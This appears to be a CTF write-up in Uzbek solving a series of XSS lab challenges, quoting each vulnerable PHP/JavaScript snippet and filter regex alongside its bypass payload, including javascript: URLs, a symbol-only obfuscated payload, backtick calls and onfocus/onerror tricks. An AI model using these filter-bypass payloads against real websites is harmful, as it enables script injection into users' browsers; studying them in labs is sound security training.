





# Baby XSS 01
## Zaiflik turi: Reflected XSS

Bu qismda 
```echo $_GET["payload"];``` payload parametri hech qanday filterdan o'tkazilmasdan HTML ichiga chiqarilyapti.

Payload:
```<script>alert('XSS')</script>```


# Baby XSS 02
## Zaiflik turi: DOM-Based XSS

Bu qismda location.hash URL dagi # dan keyingi qiymatni oladi va innerHTML orqali sahifaga joylaydi. Injection point — URL fragment (#).
```
var q = location.hash.substring(1);
window.query.innerHTML = q == '' ? `Hello!` : (`Hello, ${decodeURI(q)}`);
```
Payload:
```#```


# Baby XSS 03
## Zaiflik turi: Reflected XSS

Bu qismda `<script>` yuborish ishlamaydi.
Bu yerda asosiy qism — $escaped qiymati HTML attribute ichida ishlatilyapti.
Source Code:


htmlspecialchars() <, >, ", ' kabi belgilarni encode qiladi.
Ammo `href` qiymatining o'zida JavaScript URL scheme ishlatiladi.

Payload:
```javascript:alert('XSS')```

HTML dagi `href` ko'rinishi `<a href="javascript:alert(document.domain)/friends">Friends</a>`
Frends bosilganda payload ishga tushadi.


# Baby XSS 04
## Zaiflik turi: Reflected XSS

Bu qismda filterdan foydalanilgan 
```preg_replace("/[`<>ux]\\/", "", $_GET['payload']);```
Filter `/[`<>ux`]\\/` bularni bloklaydi. Lekin `$,)(,}{,''` bulardan foydalansa bo'ladi.

Payload:
```${alert('XSS')}```

Ushbu payload ishlashi kerak edi lekin web site kodida kamchiliklar borligi sababli ishlamadi.
PHP xatosi: 
`hello` payload yuborilgandaham natija chiqmadi.
```Warning: preg_replace(): No ending delimiter '/' found```


# No Alphabets and Digits

Ushbu qismga filter qo'shilgan:
```$escaped = preg_replace("/[a-zA-Z0-9]/", "", $_GET['payload']);```
Filter barcha harf va raqamlarni olib tashlaydi keyin natija to'g'ridan to'g'ri javascriptga saqlanadi.
Shartlarga moslab belgilardan iborat payloaddan foydalanamiz:

```([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'("XSS")')()```



# No Parentheses
## Zaiflik turi: Reflected XSS

Bundaham turlixil filterlardan foydalanilgan.
```
$escaped = preg_replace("/[()]/", "", $_GET['payload']);
$escaped = preg_replace("/.*o.*n.*/i", "", $escaped);
```

Filter `/[()]/` va `/.*o.*n.*/i` bularni olib tashlaydi.

Payload:
```<script>alert`XSS`</script>```



# No Quotes
## Zaiflik turi: Reflected XSS

Bu qismdaham filterdan foydalanilgan:

```preg_replace("/['\"`&#]/", "", $_GET['payload']);```

Filter ``/['\"`&#]/`` bularni olib tashlaydi.

Payload:
```<svg onload=alert(/XSS/)>```



# No Parentheses Again

Bundaham qavslarni olib tashlashgan lekin oldingi taskga nisbatan qiyinroq

```$escaped = preg_replace("/[`()<>&#]/", "", $_GET['payload']);```

Filter quyidagi belgilarni olib tashlaydi: `` `  (  )  <  >  &  #`` 
Lekin `"` ni filter bloklamaydi.
Payload:
" autofocus tabindex="0" onfocus="window.onerror=alert;throw 'XSS'



# Replacement
```
<?php 
$escaped = preg_replace("/<script>/i", "", $escaped); 
?> 
<h1>Hello, <?= $escaped ?>!</h1>
```
Bu kod <script> tagini regex orqali olib tashlaydi:
```preg_replace("/<script>/i", "", $escaped);```
/i sabab filter katta-kichik harflar kirgizish ish bermaydi.

Source code'da `$escaped` o'zidan foydalanilgan:
```$escaped = preg_replace("/<script>/i", "", $escaped);```
Bu `Undefined variable $escaped` xatoligini chiqaradi.

Challangeni bajarish uchun DevTools console dan foydalanildi.
```alert(document.domain)```



